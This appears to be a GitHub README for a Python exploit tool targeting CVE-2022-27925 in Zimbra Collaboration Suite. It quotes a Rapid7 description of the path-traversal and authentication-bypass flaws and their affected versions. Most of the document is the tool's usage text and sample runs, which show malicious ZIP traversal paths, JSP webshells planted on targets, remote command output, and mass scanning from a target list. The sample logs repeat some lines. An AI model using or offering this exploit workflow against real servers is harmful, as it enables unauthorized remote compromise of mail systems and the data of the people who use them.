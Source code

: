 # CVE-2022-27925

# Description
On May 10, 2022, Zimbra released versions 9.0.0 patch 24 and 8.8.15 patch 31 to address multiple vulnerabilities in Zimbra Collaboration Suite, including CVE-2022-27924 (which we wrote about previously) and CVE-2022-27925.

Originally, Zimbra called CVE-2022-27925 an authenticated path-traversal attack, where an administrative user could write files into any directory on the filesystem as the Zimbra account. Because it was originally thought to be an administrator-only attack, NVD assigned it a CVSS base score of 7.8. Later, Volexity noticed that attackers exploiting this vulnerability had found a way to bypass the administrative requirements, and wrote about it on August 10, 2022. This new authentication bypass got a new identifier – CVE-2022-37042.

By combining the original path-traversal vulnerability and new authentication bypass, attackers can remotely compromise a Zimbra Collaboration Suite system via the administrator port (by default, 7071) anonymously. Combined with a currently unpatched privilege escalation vulnerability that we recently wrote about and wrote an exploit for, these three vulnerabilities lead to remote command execution as the root user on unpatched systems.

Although the public advisories don’t mention it, according to our analysis, Zimbra Collaboration Suite Network Edition (the paid edition) is vulnerable, and the Open Source Edition (free) is not (since it does not have the vulnerable mboximport endpoint). Vulnerable versions are:

    Zimbra Collaboration Suite Network Edition 9.0.0 Patch 23 (and earlier)
    Zimbra Collaboration Suite Network Edition 8.8.15 Patch 30 (and earlier)

These vulnerablities (and others in Zimbra) are being targeted for widespread exploitation in the wild, and should therefore be patched or taken offline as soon as possible. If you suspect you’ve been compromised, Zimbra provides steps to rebuild your Zimbra Collaboration Suite server from scratch on the latest patch without losing data.

Source: https://attackerkb.com/topics/dSu4KGZiFd/cve-2022-27925/rapid7-analysis

## Usage
```
 _____   _           __
/__  /  (_)___ ___  / /_  _________ _
  / /  / / __ `__ \/ __ \/ ___/ __ `/
 / /__/ / / / / / / /_/ / /  / /_/ /
/____/_/_/ /_/ /_/_.___/_/   \__,_/
                    CVE-2022-27925

usage: exploit.py [-h] [-t TARGET] [-l LIST]

options:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        URl with protocol HTTPS
  -l LIST, --list LIST  List of targets
```

# Example run

```
root@root# python exploit.py -t zimbra.example.com
_____   _           __
/__  /  (_)___ ___  / /_  _________ _
  / /  / / __ `__ \/ __ \/ ___/ __ `/
 / /__/ / / / / / / /_/ / /  / /_/ /
/____/_/_/ /_/ /_/_.___/_/   \__,_/
                    CVE-2022-27925 Sanan Qasim

[!] Testing URL: https://zimbra.example.com
[!] Target is up!
[!] Creating malicious ZIP path: ../../../../mailboxd/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[+] Webshell works!!
[+] WebShell location: https://zimbra.example.com/zimbraAdmin/BQOQBN.jsp
[+] Uname -a output: Linux zimbra.docker 3.10.0-1127.8.2.el7.x86_64 #1 SMP Thu May 7 19:30:37 EDT 2020 x86_64 x86_64 x86_64 GNU/Linux

root@root# python exploit.py -l targets.txt

 _____   _           __
/__  /  (_)___ ___  / /_  _________ _
  / /  / / __ `__ \/ __ \/ ___/ __ `/
 / /__/ / / / / / / /_/ / /  / /_/ /
/____/_/_/ /_/ /_/_.___/_/   \__,_/
                    CVE-2022-27925 sanan Qasim

[!] Testing URL: https://patched.example.com
[!] Target is up!
[!] Creating malicious ZIP path: ../../../../mailboxd/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[-] Target not vulnerable
[!] Creating malicious ZIP path: ../../../../jetty_base/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[-] Target not vulnerable
[!] Creating malicious ZIP path: ../../../../jetty/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[-] Target not vulnerable
[!] Testing URL: https://zimbra.example.com
[!] Target is up!
[!] Creating malicious ZIP path: ../../../../mailboxd/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[+] Webshell works!!
[+] WebShell location: https://zimbra.example.com/zimbraAdmin/7RRT4G.jsp
[+] Uname -a output: Linux zimbra.docker 3.10.0-1127.8.2.el7.x86_64 #1 SMP Thu May 7 19:30:37 EDT 2020 x86_64 x86_64 x86_64 GNU/Linux
[!] Creating malicious ZIP path: ../../../../jetty_base/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[+] Webshell works!!
[+] WebShell location: https://zimbra.example.com/zimbraAdmin/7RRT4G.jsp
[+] Uname -a output: Linux zimbra.docker 3.10.0-1127.8.2.el7.x86_64 #1 SMP Thu May 7 19:30:37 EDT 2020 x86_64 x86_64 x86_64 GNU/Linux
[!] Creating malicious ZIP path: ../../../../jetty/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[+] Webshell works!!
[+] WebShell location: https://zimbra.example.com/zimbraAdmin/7RRT4G.jsp
[+] Uname -a output: Linux zimbra.docker 3.10.0-1127.8.2.el7.x86_64 #1 SMP Thu May 7 19:30:37 EDT 2020 x86_64 x86_64 x86_64 GNU/Linux
[!] Testing URL: https://patched.example.com
[!] Target is up!
[!] Creating malicious ZIP path: ../../../../mailboxd/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[-] Target not vulnerable
[!] Creating malicious ZIP path: ../../../../jetty_base/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[-] Target not vulnerable
[!] Creating malicious ZIP path: ../../../../jetty/webapps/zimbraAdmin/
[!] Exploiting!
[!] Testing webshell
[-] Target not vulnerable

